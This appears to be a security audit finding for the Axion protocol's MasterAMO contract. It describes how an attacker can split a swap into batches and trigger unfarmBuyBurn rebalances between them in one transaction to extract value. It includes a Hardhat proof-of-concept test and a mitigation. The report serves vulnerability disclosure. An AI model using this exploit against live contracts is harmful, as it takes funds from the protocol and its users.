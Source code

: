 Smooth Fossilized Aphid

High

# Multiple rebalances per block lead to better swap prices for users and loss of funds for the protocol

### Summary

Multiple rebalances within a single block can result in financial losses for the protocol while providing enhanced swap execution for a malicious user. Instead of executing a full token swap in one operation, the attacker can perform the swap in small increments. Between these incremental swaps, the attacker can trigger the protocol's rebalancing functionalities to manipulate pool balances. This entire sequence can be executed atomically within a single transaction.
### Root Cause

No checks for a same block rebalance in `unfarmBuyBurn()` and `mintSellFarm()` functions.
https://github.com/sherlock-audit/2024-10-axion/blob/d75df3636ea28dd627d548d5d473c5d5477b0dc6/liquidity-amo/contracts/MasterAMO.sol#L296
https://github.com/sherlock-audit/2024-10-axion/blob/d75df3636ea28dd627d548d5d473c5d5477b0dc6/liquidity-amo/contracts/MasterAMO.sol#L278

### Internal pre-conditions

N/A
### External pre-conditions

N/A

### Attack Path

Imagine a user wants to sell BOOST tokens to obtain USD. In a liquidity pool where BOOST is valued at around $1, an attacker aims to swap a large amount of BOOST. Instead of performing one large swap, the attacker breaks the transaction into smaller batches and repeatedly calls the `unfarmBuyBurn` function with each batch. All this done in a single atomic transaction.

### Impact

Protocol sell usd in order for the malicious user to get better swap rate.

### PoC

```typescript
it("should verify that batch swapping returns more", async function() {
	// Get pair
    const pairAddress: string = await router.pairFor(usdAddress, boost, true);
    const pair: IPair = (await ethers.getContractAt("contracts/interfaces/v2/IPair.sol:IPair", pairAddress)) as IPair;
    // Get what is the expected amount out of a single swap for 3000000e18 (values are chosen to easly integrate with the existing tests setup)
    const singleSwapAmountOut = await pair.getAmountOut(ethers.parseUnits("3000000", 18), boostAddress);
    const usdBefore = await (await ethers.getContractAt("contracts/mock/MockRouter.sol:IERC20", usdAddress)).balanceOf(user);

	// Instead of doing one single swap, it is splitted into three with a rebalance operation between them
    const boostToBuy = ethers.parseUnits("1000000", 18);
    const routeSellBoost = [{
      from: boostAddress,
      to: usdAddress,
      stable: true
    }];

    await boost.connect(boostMinter).mint(user.address, boostToBuy);
    await boost.connect(user).approve(routerAddress, boostToBuy);
    await router.connect(user).swapExactTokensForTokens(
      boostToBuy,
      0,
      routeSellBoost,
      user.address,
      deadline
    );
    await expect(solidlyV2AMO.connect(user).unfarmBuyBurn()).to.be.emit(solidlyV2AMO, "PublicUnfarmBuyBurnExecuted");

	// Second batch
    await boost.connect(boostMinter).mint(user.address, boostToBuy);
    await boost.connect(user).approve(routerAddress, boostToBuy);
    await router.connect(user).swapExactTokensForTokens(
      boostToBuy,
      0,
      routeSellBoost,
      user.address,
      deadline
    );
    await expect(solidlyV2AMO.connect(user).unfarmBuyBurn()).to.be.emit(solidlyV2AMO, "PublicUnfarmBuyBurnExecuted");

	// Third batch
    await boost.connect(boostMinter).mint(user.address, boostToBuy);
    await boost.connect(user).approve(routerAddress, boostToBuy);
    await router.connect(user).swapExactTokensForTokens(
      boostToBuy,
      0,
      routeSellBoost,
      user.address,
      deadline
    );
    await expect(solidlyV2AMO.connect(user).unfarmBuyBurn()).to.be.emit(solidlyV2AMO, "PublicUnfarmBuyBurnExecuted");

    const usdAfter = await (await ethers.getContractAt("contracts/mock/MockRouter.sol:IERC20", usdAddress)).balanceOf(user);
	// The following log shows the difference between the expected value of single swap and splitted into batches
    console.log((usdAfter - usdBefore as unknown as bigint) - singleSwapAmountOut)
    
  });

```
`log: 27592728720n`

The more the number of independent swap, the bigger the difference will be. This difference is indirectly paid by the protocol for providing USD when price is relatively lower between the batches instead of providing it when the user makes the whole swap.

### Mitigation

Introduce a mapping from block.timestamp -> has rebalance occured and forbid more than one rebalance for a certain block.timestamp.